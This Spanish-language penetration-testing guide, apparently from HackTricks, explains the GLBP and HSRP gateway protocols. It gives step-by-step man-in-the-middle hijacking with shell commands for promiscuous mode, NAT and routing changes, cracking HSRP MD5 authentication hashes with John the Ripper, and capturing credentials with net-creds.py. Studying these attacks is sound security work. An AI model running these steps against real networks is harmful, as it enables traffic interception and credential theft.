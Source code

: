 # Ataques GLBP & HSRP

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


## Descripción general del secuestro de FHRP

### Información sobre FHRP
FHRP está diseñado para proporcionar robustez a la red al fusionar múltiples enrutadores en una única unidad virtual, mejorando así la distribución de carga y la tolerancia a fallos. Cisco Systems introdujo protocolos destacados en esta suite, como GLBP y HSRP.

### Información del Protocolo GLBP
La creación de Cisco, GLBP, funciona en la pila TCP/IP, utilizando UDP en el puerto 3222 para la comunicación. Los enrutadores en un grupo GLBP intercambian paquetes "hello" en intervalos de 3 segundos. Si un enrutador no envía estos paquetes durante 10 segundos, se presume que está fuera de línea. Sin embargo, estos temporizadores no son fijos y pueden modificarse.

### Operaciones y Distribución de Carga de GLBP
GLBP se destaca al permitir la distribución de carga entre enrutadores utilizando una única IP virtual junto con múltiples direcciones MAC virtuales. En un grupo GLBP, cada enrutador participa en el reenvío de paquetes. A diferencia de HSRP/VRRP, GLBP ofrece un equilibrio de carga genuino a través de varios mecanismos:

- **Equilibrio de Carga Dependiente del Host:** Mantiene la asignación de direcciones MAC AVF consistente a un host, esencial para configuraciones NAT estables.
- **Equilibrio de Carga Round-Robin:** El enfoque predeterminado, alternando la asignación de direcciones MAC AVF entre los hosts solicitantes.
- **Equilibrio de Carga Round-Robin Ponderado:** Distribuye la carga en función de métricas de "Peso" predefinidas.

### Componentes Clave y Terminología en GLBP
- **AVG (Puerta de enlace virtual activa):** El enrutador principal, responsable de asignar direcciones MAC a los enrutadores pares.
- **AVF (Reenviador virtual activo):** Un enrutador designado para gestionar el tráfico de red.
- **Prioridad GLBP:** Una métrica que determina el AVG, comenzando en un valor predeterminado de 100 y variando entre 1 y 255.
- **Peso GLBP:** Refleja la carga actual en un enrutador, ajustable manualmente o a través del Seguimiento de Objetos.
- **Dirección IP Virtual GLBP:** Sirve como puerta de enlace predeterminada de la red para todos los dispositivos conectados.

Para las interacciones, GLBP utiliza la dirección multicast reservada 224.0.0.102 y el puerto UDP 3222. Los enrutadores transmiten paquetes "hello" en intervalos de 3 segundos, y se consideran no operativos si se pierde un paquete durante un período de 10 segundos.

### Mecanismo de Ataque GLBP
Un atacante puede convertirse en el enrutador principal enviando un paquete GLBP con el valor de prioridad más alto (255). Esto puede llevar a ataques de DoS o MITM, permitiendo la interceptación o redirección del tráfico.

### Ejecución de un Ataque GLBP con Loki
[Loki](https://github.com/raizo62/loki_on_kali) puede realizar un ataque GLBP inyectando un paquete con prioridad y peso establecidos en 255. Los pasos previos al ataque implican recopilar información como la dirección IP virtual, la presencia de autenticación y los valores de prioridad del enrutador utilizando herramientas como Wireshark.

Pasos del Ataque:
1. Cambiar a modo promiscuo y habilitar el reenvío de IP.
2. Identificar el enrutador objetivo y recuperar su IP.
3. Generar un ARP Gratuito.
4. Inyectar un paquete GLBP malicioso, suplantando al AVG.
5. Asignar una dirección IP secundaria a la interfaz de red del atacante, reflejando la IP virtual de GLBP.
6. Implementar SNAT para una visibilidad completa del tráfico.
7. Ajustar el enrutamiento para garantizar el acceso continuo a Internet a través del enrutador AVG original.

Siguiendo estos pasos, el atacante se posiciona como un "hombre en el medio", capaz de interceptar y analizar el tráfico de red, incluidos datos no cifrados o sensibles.

Para fines de demostración, aquí se muestran los fragmentos de comando requeridos:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explicación Pasiva del Secuestro de HSRP con Detalles de Comandos

#### Descripción General de HSRP (Protocolo de Redundancia/Router en Espera Activo)
HSRP es un protocolo propietario de Cisco diseñado para la redundancia de la puerta de enlace de red. Permite la configuración de múltiples routers físicos en una unidad lógica única con una dirección IP compartida. Esta unidad lógica es gestionada por un router primario responsable de dirigir el tráfico. A diferencia de GLBP, que utiliza métricas como prioridad y peso para el equilibrio de carga, HSRP se basa en un solo router activo para la gestión del tráfico.

#### Roles y Terminología en HSRP
- **Router Activo de HSRP**: El dispositivo que actúa como la puerta de enlace, gestionando el flujo de tráfico.
- **Router en Espera de HSRP**: Un router de respaldo, listo para tomar el control si el router activo falla.
- **Grupo de HSRP**: Un conjunto de routers que colaboran para formar un único router virtual resistente.
- **Dirección MAC de HSRP**: Una dirección MAC virtual asignada al router lógico en la configuración de HSRP.
- **Dirección IP Virtual de HSRP**: La dirección IP virtual del grupo de HSRP, actuando como la puerta de enlace predeterminada para los dispositivos conectados.

#### Versiones de HSRP
HSRP viene en dos versiones, HSRPv1 y HSRPv2, diferenciándose principalmente en capacidad de grupo, uso de IP multicast y estructura de dirección MAC virtual. El protocolo utiliza direcciones IP multicast específicas para el intercambio de información de servicio, con paquetes Hello enviados cada 3 segundos. Se presume que un router está inactivo si no se recibe ningún paquete dentro de un intervalo de 10 segundos.

#### Mecanismo de Ataque de HSRP
Los ataques de HSRP implican tomar el rol del Router Activo de forma forzada mediante la inyección de un valor de prioridad máximo. Esto puede llevar a un ataque de Hombre en el Medio (MITM). Los pasos esenciales previos al ataque incluyen recopilar datos sobre la configuración de HSRP, lo cual se puede hacer utilizando Wireshark para el análisis de tráfico.

#### Pasos para Evadir la Autenticación de HSRP
1. Guardar el tráfico de red que contiene datos de HSRP en un archivo .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraer los hashes MD5 del archivo .pcap utilizando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Descifrar los hashes MD5 utilizando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ejecutando la Inyección de HSRP con Loki**

1. Iniciar Loki para identificar los anuncios de HSRP.
2. Configurar la interfaz de red en modo promiscuo y habilitar el reenvío de IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utilizar Loki para apuntar al router específico, ingresar la contraseña de HSRP descifrada y realizar las configuraciones necesarias para hacerse pasar por el Router Activo.
4. Después de obtener el rol de Router Activo, configurar la interfaz de red y las tablas IP para interceptar el tráfico legítimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modificar la tabla de enrutamiento para dirigir el tráfico a través del antiguo Router Activo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utilizar net-creds.py o una utilidad similar para capturar credenciales del tráfico interceptado.
```shell
sudo python2 net-creds.py -i eth0
```

Al ejecutar estos pasos, el atacante se coloca en una posición para interceptar y manipular el tráfico, similar al procedimiento para el secuestro de GLBP. Esto resalta la vulnerabilidad en protocolos de redundancia como HSRP y la necesidad de medidas de seguridad robustas.
